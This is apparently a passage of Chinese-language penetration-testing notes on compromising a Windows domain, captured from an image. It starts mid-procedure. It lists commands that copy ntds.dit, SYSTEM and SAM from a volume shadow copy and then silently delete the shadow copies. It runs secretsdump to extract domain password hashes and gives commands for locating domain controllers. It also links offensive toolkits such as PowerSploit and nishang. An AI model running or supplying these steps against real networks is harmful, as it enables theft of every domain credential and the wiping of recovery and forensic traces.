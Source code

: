 >
> > copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\NTDS\ntds.dit c:\ntds.dit   
>
> 复制 system 和 sam
>
> > copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\system c:\
> >
> > copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\sam c:\
>
> 删除快照
>
> > vssadmin delete shadows /for=c: /quiet
>
> 获取将以上 system，sam, ntds.dit 放到 /root/ntds_cracking/ 下，运行	
>
> > python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/SYSTEM LOCAL
>
> py 地址:
>
> > https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py
>
> 域渗透——获得域控服务器的 NTDS.dit 文件
>
> > http://www.4hou.com/technology/10573.html
>
> ### dc 定位
>
> > nltest dclist:xx.xx
> >
> > net time /domain
> >
> > systeminfo 中的 domain
> >
> > ipconfig /all 中的 DNS Suffix Search List
> >
> > 扫描53端口，找 dns 位置
> >
> > set log
> >
> > net group "domain controllers" /domain
> >
> > PowerView Get-NetDomainController
>
> PowerView 地址:
>
> > https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
>
> ### windows log
>
> 微软第三方信息收集工具 LogParser.exe psloglist.exe 等
>
> ### powerhsell 神器
>
> nishang
>
> > https://github.com/samratashok/nishang
>
> spn扫描
>
> > https://github.com/nullbind/Powershellery/tree/master/Stable-ish
>
> PowerSploit
>